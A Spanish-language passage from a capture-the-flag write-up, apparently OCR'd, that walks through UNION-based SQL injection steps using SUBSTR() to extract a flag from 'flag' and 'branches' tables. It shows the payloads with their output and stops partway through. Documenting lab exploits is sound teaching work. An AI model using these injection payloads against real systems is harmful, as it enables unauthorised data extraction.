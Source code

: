Resultado:

```
|   id |name                 |  rate |
|    1 |ETSCTF_4b7e39ac882ea |     3 |
```

---

## Paso 9: Uso de `SUBSTR()` para extraer la flag completa

Si la flag está truncada, usamos `SUBSTR()` para obtener fragmentos:

```sql
-1 UNION SELECT 1, SUBSTR(name,7,20), 3 FROM flag --
```

Extrae 20 caracteres empezando en el carácter 7 (después de `ETSCTF_`).

```sql
-1 UNION SELECT 1, SUBSTR(name,20,30), 3 FROM flag --
```

Extrae 30 caracteres desde la posición 20.

Concatenando fragmentos obtenemos:

```
ETSCTF_nOOoOOOOoooooLaPolitziaaaaa
```

---

## Paso 10: Extracción final de la flag desde la tabla `branches`

Flag parcial visible en la tabla `branches`:

```
Pick a branch id: 1
1
|   id |name                 |  rate |
|    1 |ETSCTF_1b294abeee150 | 52642 |
```

Extraemos fragmentos posteriores con:

```sql
-1 UNION SELECT 1, SUBSTR(name,21,40), 3 FROM branches --
```

Resultado:

```
|   id |name                 |  rate |
|    1 |                     |     3 |
|    1 |XXXXXXXXXXXXXXXXXXX  |     3 |
```

Concatenamos:
